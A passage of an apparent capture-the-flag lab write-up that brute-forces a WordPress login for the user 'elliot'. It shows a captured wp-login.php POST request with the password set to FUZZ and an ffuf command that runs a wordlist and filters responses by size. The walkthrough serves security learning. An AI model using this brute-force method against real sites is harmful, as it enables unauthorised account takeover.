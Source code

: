 so we have some valid usernames now, we can also try bruteforcing the password for this username.

using **ffuf** again but now change the **FUZZ** word to be in the password field this time and the username field is elliot like this.

```
POST /wp-login.php HTTP/1.1
Host: 10.10.208.13
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 101
Origin: http://10.10.208.13
Connection: close
Referer: http://10.10.208.13/wp-login.php
Cookie: wordpress_test_cookie=WP+Cookie+check
Upgrade-Insecure-Requests: 1

log=elliot&pwd=FUZZ&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.208.13%2Fwp-admin%2F&testcookie=1
```

now filter this size

```
ffuf -request request.txt -w cleaned.dic -fs 3591
```

![img-description](/assets/img/MrRobot/Bruteforcingpasswords.png)
_Bruteforcing Password_
